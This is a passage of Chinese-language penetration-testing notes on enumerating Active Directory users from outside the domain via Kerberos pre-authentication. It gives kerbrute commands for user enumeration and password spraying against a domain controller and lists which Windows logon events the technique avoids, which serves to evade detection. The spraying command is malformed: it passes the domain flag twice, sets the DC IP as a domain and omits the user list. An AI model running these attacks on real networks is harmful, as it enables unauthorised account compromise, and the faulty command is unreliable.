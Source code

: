 

### 域外用户枚举

在域外也能和域进行交互的原因，是利用了kerberos协议认证中的AS-REQ阶段。只要我们能够访问域控88(kerberos服务)端口，就可以通过这种方式去枚举用户名并且进行kerberos协议的暴力破解了！

Kerbrute使用的是kerberos pre-auth协议，不会产生大量的日志 (4625 - An account failed to log on)，但是会产生以下日志：

-   口令验证成功时产生日志 (4768 - A Kerberos authentication ticket (TGT) was requested)
-   口令验证失败时产生日志 (4771 - Kerberos pre-authentication failed)

#### 攻击方法

##### kerbrute_windows_amd64.exe

>   [kerbrute_windows_amd64.exe](https://github.com/ropnop/kerbrute/releases)

在这里我们需要获取dc的ip，域名。将想要爆破的用户放入user.txt表中，这样就可以获取到了！

```
kerbrute_windows_amd64.exe userenum --dc 192.168.188.100 -d ghost.com user.txt
```

![image-20220318191443842](内网渗透&横向移动/image-20220318191443842.png)

之后爆破

```
kerbrute_windows_amd64.exe passwordspray -d 192.168.188.100 -d ghost.com Admin123!
```

![image-20220318191719021](内网渗透&横向移动/image-20220318191719021.png)
